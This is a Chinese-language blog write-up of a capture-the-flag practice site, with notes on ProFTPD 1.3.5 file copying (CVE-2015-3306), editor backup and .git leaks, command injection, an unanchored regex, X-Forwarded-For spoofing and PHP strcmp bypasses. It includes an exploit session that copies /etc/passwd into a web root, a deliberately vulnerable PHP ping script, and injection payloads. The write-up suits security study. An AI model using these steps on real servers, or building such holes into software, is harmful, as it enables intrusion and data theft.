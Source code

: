 ```yaml
---
title: "Writeups #2: 被實習生霸凌的筆記區"
date: 2019-01-10 18:46:01
tags:
  - writeups
categories: Writeups
---
```


這是我們家實習生為了欺負我而架站出的題目(X)

[ProFTPD 1.3.5](#ProFTPD)
[Info Leakage](#InfoLeakage)
[Command Injection](#command)
[Regular Expression](#regular)
[HTTP](#http)
[MD5](#md5)
[PHP](#php)

<!--more-->

<h2 id='ProFTPD'>ProFTPD 1.3.5</h2>

CVE-2015–3306

```
telnet [ip] [port]
```

FTP command:

```
help
site cpfr [path] (copy from)
site cpto [path] (copy to)
```

```
Escape character is '^]'.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [172.17.0.11]
help
214-The following commands are recognized (* =>'s unimplemented):
 CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV    
 EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD     
 XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP    
 NOOP    FEAT    OPTS    AUTH*   CCC*    CONF*   ENC*    MIC*    
 PBSZ*   PROT*   TYPE    STRU    MODE    RETR    STOR    STOU    
 APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST    
 NLST    STAT    SITE    MLSD    MLST    
214 Direct comments to root@a84cc9e40260
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /var/www/html/hi.txt
250 Copy successful
site cpfr /var/www/html/flag.php
350 File or directory exists, ready for destination name
site cpto /var/www/html/ya.txt
250 Copy successful
421 Login timeout (300 seconds): closing control connection
Connection closed by foreign host.
```

把其他路徑的檔案複製到網站跟目錄做瀏覽 or 藉由複製檔案改變附檔名去存取其內容

<h2 id='InfoLeakage'>Info Leakage</h2>

某些編輯器預設自動備份檔案的部分

|vim|gedit|git|
|:--:|:--:|:--:|
|/.filename.ext.swp|/filename.ext~|/.git/|

如果 .git 資料夾 403，小工具 [GitDumper](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2Finternetwache%2FGitTools%2Ftree%2Fmaster%2FDumper)

<h2 id='command'>Command Injection</h2>

both Windows and Unix-based system:

* &
* &&
* |
* ||

only Unix-based

* ;
* Newline (0x0a or \n)
* `
* $()

ref: https://portswigger.net/web-security/os-command-injection?fbclid=IwAR2nHrTR75NLk2thwiO-x6CmKI1YpfdefoUGanjIDAXjtTOWFZFzZyqJdsg

結果不一定會回顯，但也可以把結果寫入另一個檔案存放於根目錄

```php
<?php
  $target = $_POST['target'];
  $result = shell_exec("ping -c1 ".$target);
  echo "<pre>".$result."</pre>";
?>
```

ex:
`8.8.8.8 $(ls)` 只回顯 ping 8.8.8.8 的資訊，不代表 ls 沒被執行可能只是沒有回顯
`8.8.8.8 $(ls > hi.txt)` 把 ls 結果寫入 hi.txt，接著去訪問 /hi.txt 確實有該目錄下資訊

補：會先執行 $() 裡面的命令，在將結果帶入原 command 中

<h2 id='regular'>Regular Expression</h2>

```
/^(([0–9]|[1–9][0–9]|1[0–9]{2}|2[0–4][0–9]|25[0–5])\.){3}([0–9]|[1–9][0–9]|1[0–9]{2}|2[0–4][0–9]|25[0–5])/
```

重點在後面沒有 $ 限制結尾，所以加什麼都 pass

[] 可以出現的字元
{} 可以接受的長度
^ 限制開頭
$ 限制結尾

<h2 id='http'>HTTP</h2>

[如何正確取得使用者IP](https://medium.com/r/?url=https%3A%2F%2Fdevco.re%2Fblog%2F2014%2F06%2F19%2Fclient-ip-detection%2F) by Devcore

> 「X-Forwarded-For」這個變數雖然「有機會」取得使用者的真實 IP，但是由於這個值是從客戶端傳送過來的，所以「有可能」被使用者竄改。

<h2 id='md5'>MD5</h2>

before PHP 5.3

```
# str1 = str2 return 0
int strcmp (string str1, string str2)
```

但出現 warning 也會 return 0，用陣列跟字串比較就會出現 0 了

<h2 id='php'>PHP</h2>

Variable variables

Execution Operators

## 後記

亂成這樣全世界大概只有我自己能勉強看懂吧（就是不好好整理），PHP 部分大概又會拖個沒完沒了（懶）
